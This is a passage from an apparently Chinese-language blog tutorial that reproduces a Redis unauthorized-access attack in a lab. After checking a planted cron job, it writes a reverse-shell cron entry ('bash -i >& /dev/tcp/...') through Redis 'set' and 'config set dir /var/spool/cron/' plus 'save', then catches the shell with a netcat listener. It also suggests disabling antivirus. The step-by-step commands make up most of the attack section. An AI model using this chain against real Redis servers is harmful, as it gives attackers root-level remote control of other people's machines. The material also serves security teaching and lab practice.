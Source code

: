
	![在这里插入图片描述](https://img-blog.csdnimg.cn/1e140e14b48e46c1bfa6a8ad76ab01ca.png)



### 3. 等待几分钟之后，进入虚拟机（被攻击机）查看效果

- `crontab -u root -l` 查看已有的计划任务
	- 其他 `crontab` 命令
           - `crontab -u root -r`：删除某个用户的定时任务
           - `crontab -u root -time.cron`：把文件添加到某个用户的定时任务（time.cron 是一个文本文件名，文本的内容是一个或者多个 cron 表达式）
           - `crontab -u root -l`：列举某个用户的定时任务
           - `crontab -u root -e`：编辑某个用户的定时任务

- `tail -f /root/data.txt` 实时查看 `/root/data.txt` 文件内容（*这个文件就是上面计划任务中 echo 命令指向的文件，如果有每分钟输出一次时间，就说明计划任务创建成功了*）
- 过程如图（可以看到，成功了:v:）：

![在这里插入图片描述](https://img-blog.csdnimg.cn/7b30070d6c9d4b569bbf86418cd8c390.png)


### 4. （进阶）定时任务反弹 shell 获取权限

> 以上，其实 Redis 未授权访问产生的原理与造成的危害已经显而易见了。但是，上面最终仅仅是实现了在目标机器中创建一个文件并写入了一些内容，而可造成的危害远不仅于此... :see_no_evil:

> 既然可以创建文件，并写入文本，那说明，其实已经可以让目标机器执行一些自定义指令了，可以尝试实现远控。

1. 在本机开启一个监听端口 `8888` （这个端口随便定义，只要不冲突就行）

	- `nc -lvp 8888` 开始监听 `8888` 端口
		- `nc` 是 `netcat`工具的命令，大多数 `linux` 系统自带 `netcat`， windows 机器可以在官网（ `https://eternallybored.org/misc/netcat/` ）下载，记得关闭杀软或者加入白名单。
	- 如图
	![在这里插入图片描述](https://img-blog.csdnimg.cn/a38f7afb966942028692ff5e3f559b3a.png)

2. 重新打开一个命令行窗口（监听窗口不要关），按照上面攻击复现的步骤 1 ~ 3，在目标机器的定时任务中写入反弹`shell`脚本，并等待其执行（执行成功后，监听窗口会有变化）。

	-  连接 `redis`。（`133` 是我的 redis 服务器）
		- `redis-cli.exe -h 192.168.136.133`
	- 写入键值对，值为定时任务，1 分钟后执行反弹 `shell` 命令
		- `set x "\n\n* * * * * bash -i >& /dev/tcp/192.168.136.1/8888 0>&1\n\n"`
		- `\n` 是换行符，目的是为了与之前已经存在的定时任务分行
		- `bash -i >& /dev/tcp/192.168.136.1/8888 0>&1` 是最基本的 `bash` 反弹连接命令，`136.1` 是我本机的 ip 地址，`8888` 是上一步中设置的监听端口。
	- 修改 `redis` 持久化存储目录和文件名，触发持久化（`config set` 是动态持久化，仅在当前窗口生效，窗口关闭后需要重新设置）
		- `config set dir /var/spool/cron/`
		- `config set dbfilename root`
		- `save`
	- 过程如图
		![在这里插入图片描述](https://img-blog.csdnimg.cn/e606eecae5d54711a7dacbecb051abe1.png)

3. 打开第一步中的监听窗口，等待一小会儿 :clock5:（一分钟之内）

	- `shell` 反弹成功，本机已经成功远程连接目标机器
